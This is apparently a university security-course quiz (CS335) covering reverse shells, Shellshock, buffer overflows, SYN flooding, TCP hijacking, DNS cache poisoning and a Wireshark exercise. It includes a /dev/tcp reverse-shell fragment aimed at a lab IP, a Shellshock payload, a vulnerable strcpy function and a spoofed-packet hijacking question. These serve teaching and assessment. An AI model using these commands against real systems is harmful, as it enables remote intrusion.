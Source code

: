 ```yaml
---
layout: default
course_number: CS335
title: "Quiz 1 - Software and Network Security"
---
```


### Quiz 1 - 100 points

#### Computer Security (40 pts)

- (6 pts) Two of the vulnerability classes we discussed were Authorization bypass and Authentication bypass. What is the major difference between the two?

- (7 pts) If you run `nc -lv 9090` on a machine with IP: 10.0.2.4 and run `/bin/cat < /dev/tcp/10.0.2.4/9090 >& 0` on another machine, what is going to happen?

- (7 pts) In the reverse shell examples in class, we started by redirecting the standard output. Help me complete a reverse shell this time by redirecting to the standard output first: ` /bin/bash -i < /dev/tcp/10.0.2.4/9090 ...`.

- (5 pts) In class we executed the following commands:  
```
  foo='() { echo "hello world!"; }; echo “you have been pwned";’
  export foo
  bash_shellshock
  you have been pwned
```   
And we saw _you have been pwned_ on the screen. Will the following _reversed_ command execute and be vulnerable to the shellshock attack?
```
foo='echo “you have been pwned"; () { echo "hello world!"; }; ’
```
Why or why not?

- (5 pts) What are the 2 conditions which allow the Shellshock vulnerability to be exploitable.

- (7 pts) Remember the _bof_ function from the Buffer Overflow Lab:  
```c
int bof(char *str)
{  
    char buffer[BUF_SIZE];    
    strcpy(buffer, str);  
    return 1;
}
```
Draw the stack layout for this function.

- (3 pts) Why does ASLR make buffer-overﬂow attack more difﬁcult?

#### Network Security (45 pts)

- (4 pts) An integer `0xWWXXYYZZ` is stored in memory starting at address `0x1000`. If the machine is a _Big-Endian_ machine, what is the value stored in addresses `0x1000`, `0x1001`, `0x1002`, and `0x1003`, respectively? If the machine is a _Little-Endian_ machine, how is this integer stored?  

- (5 pts) Consider the following program:  
```c
#include <arpa/inet.h>
#include <stdio.h>
void main() {
  int a = 1089712;
  printf("%x\n", htonl(a));
  printf("%x\n", ntohl(a));
}
```
What would be the result on _Big-Endian_? How about _Little-Indian_? Remember that network byte order is Big-Indian.

- (4 pts) In the SYN ﬂooding attack example in class we randomized the source IP address. Why cannot we just use the same IP address?

- (4 pts) Are TCP Reset Attacks effective against encrypted connections? Why or Why not?

- (10 pts) Presume there is an active Telnet connection from a  Client (10.0.2.5) to a Server (10.0.2.15). The server has just acknowledged a sequence number 34289, and the client has just acknowledged a sequence number 153980. An Attacker wants to launch the TCP session hijacking attack on the connection, so he can execute a remote shell on the server. The Attacker is on the same LAN as the Client and the Server. In order to launch the attack, the attacker needs to construct a TCP packet. Please help the Attacker to ﬁll in the following ﬁelds in the spoofed TCP packet:
  - Source IP:
  - Destination IP:
  - Source port:
  - Destination port:
  - Sequence number:
  - Acknowledgement number:
  - The TCP data ﬁeld:  


- (4 pts) In class we are used to referring of your own computer as _localhost_, now we would like to refer it as cs335host. What should you do to make that happen?

- (5 pts) What is DNS cache poisoning attack? What ﬁelds of the DNS query packet contain random data that need to be included in the response?

- (4 pts) DNS uses UDP by default, but the **dig** command has a flag to use TCP to send DNS queries. Verify that this is indeed the case, include your test results.

- (5 pts) My local DNS server received the following DNS reply.
```
;; QUESTION SECTION:
;www.yahoo.com.			IN	A  
;; ANSWER SECTION:
www.yahoo.com.		1617	IN	CNAME	atsv2-fp-shed.wg1.b.yahoo.com.
atsv2-fp-shed.wg1.b.yahoo.com. 60 IN	A	72.30.35.9
atsv2-fp-shed.wg1.b.yahoo.com. 60 IN	A	72.30.35.10
;; AUTHORITY SECTION:
.			1548	IN	NS	a.root-servers.net.
.			1548	IN	NS	e.root-servers.net.
.			1548	IN	NS	f.root-servers.net.
.			1548	IN	NS	c.root-servers.net.
.			1548	IN	NS	h.root-servers.net.
.			1548	IN	NS	g.root-servers.net.
.			1548	IN	NS	i.root-servers.net.
.			1548	IN	NS	d.root-servers.net.
.			1548	IN	NS	k.root-servers.net.
.			1548	IN	NS	l.root-servers.net.
.			1548	IN	NS	j.root-servers.net.
.			1548	IN	NS	b.root-servers.net.
.			1548	IN	NS	m.root-servers.net.
```
Which parts of the answer will not be cached by my local DNS server. Why not?

#### Wireshark (15 pts)    
I like to tell jokes. I also like to use FTP to transfer files from one machine to another. For the next 2 questions, please use [this](files\ftp.pcapng) Wireshark capture.

- (5 pts) What is the FTP program (including the software version) running on the server?

- (10 pts) What is the joke I'm trying to tell you?
  - Hint 1: The joke is in a zip file.
  - Hint 2: Wireshark's ability to `follow` protocol streams might be useful to you.
